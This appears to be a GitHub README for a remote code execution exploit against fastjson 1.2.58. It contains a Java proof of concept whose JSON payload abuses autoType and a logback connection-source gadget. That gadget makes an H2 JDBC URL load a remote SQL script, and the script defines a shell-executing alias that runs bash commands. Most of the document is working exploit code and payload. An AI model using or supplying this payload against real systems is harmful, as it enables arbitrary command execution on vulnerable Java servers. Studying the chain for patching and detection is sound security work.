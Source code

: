 # fastjson-1.2.58-rce
#### need: 
```
fastjson autoType is enabled
h2 database and some jar
```
![](./test.png)
![](./fastjson-1.2.58.jpg)


### Download fastjson-1.2.58.jar
http://repo1.maven.org/maven2/com/alibaba/fastjson/1.2.58/fastjson-1.2.58.jar


### exp.java
```
import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.JSONObject;
import com.alibaba.fastjson.parser.ParserConfig;

public class exp {
    public static void main(String[] args){
        ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
        String payload = "{\"@type\":\"ch.qos.logback.core.db.DriverManagerConnectionSource\", \"url\":\"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://localhost:8000/inject.sql'\"}";
        JSONObject json = JSON.parseObject(payload);
        json.toJSONString();
    }
}
```

### inject.sql
`you can create an function on H2 that calls a java code`
```
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
	String[] command = {"bash", "-c", cmd};
	java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
	return s.hasNext() ? s.next() : "";  }
$$;
CALL SHELLEXEC('calc')

```

## 参考链接

https://www.freebuf.com/vuls/209394.html

https://blog.doyensec.com/2019/07/22/jackson-gadgets.html

https://mthbernardes.github.io/rce/2018/03/14/abusing-h2-database-alias.html
